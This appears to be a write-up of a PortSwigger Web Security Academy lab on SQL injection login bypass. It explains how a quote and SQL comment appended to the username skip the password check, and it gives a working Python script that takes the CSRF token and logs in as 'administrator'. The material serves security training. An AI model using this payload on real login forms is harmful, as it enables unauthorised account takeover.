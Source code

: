 ```yaml
---
title: SQL injection vulnerability allowing login bypass
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/lab-login-bypass/">
2. SQL injection vulnerability allowing login bypass</a>

We're able to bypass the password check for the /login page's POST request
because of an existing SQL injection vulnerability in the server backend code.
The username and password parameters of the POST request are not sanitized. The
username and password parameters are used to query the SQL database for the
username and password's existence. We escape the SQL query using the ' character
after entering the username parameter, providing a SQL comment -- to end the
query.

This causes the SQL query to ignore the password parameter, allowing the
attacker to login as any valid user.

Solution:

```python
# usage:
# python3 2.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net
# --w administrator

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login(self.who + "'--", "password")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    s = Solution(args.url, args.who)
    s.solve()


if __name__ == "__main__":
    main()
```

